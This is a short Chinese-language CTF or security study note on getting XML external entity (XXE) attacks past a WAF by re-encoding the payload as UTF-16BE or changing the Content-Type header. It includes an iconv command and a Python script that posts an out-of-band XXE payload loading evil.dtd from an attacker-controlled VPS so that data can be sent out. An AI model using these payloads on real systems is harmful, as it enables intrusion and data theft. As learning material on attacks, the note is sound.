

### UTF-16BE编码绕过
[Evil XML with Two Encodings](https://mohemiv.com/all/evil-xml/)
:::info
一个xml文档不仅可以用UTF-8编码，也可以用UTF-16(两个变体 - BE和LE)、UTF-32(四个变体 - BE、LE、2143、3412)和EBCDIC编码。<br />在这种编码的帮助下，使用正则表达式可以很容易地绕过WAF，因为在这种类型的WAF中，正则表达式通常仅配置为单字符集
:::
#### 例题  [https://www.shawroot.cc/156.html](https://www.shawroot.cc/156.html)
#### 方法
方法1： 命令行转换
```powershell
cat 1.xml | iconv -f UTF-8 -t UTF-16BE > x16.xml
```
方法2： Python脚本
```python
import requests

url = 'http://url/'
payload = """<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://yourVPS/evil.dtd">
%remote;%int;%send;
]>
"""
payload = payload.encode('utf-16')
requests.post(url, data=payload)

/**
* 复制并使用代码请注明引用出处哦~
* Lazzaro @ https://lazzzaro.github.io
*/
```
方法3： Cyberchef<br />
### Content-Type绕过
`Content-Type`头置为空或者改成json有时也可以绕过<br />[实战 | 记一次xxe漏洞的奇怪绕过](https://mp.weixin.qq.com/s/ufrM9IYX6JghvCIBx44tXg)

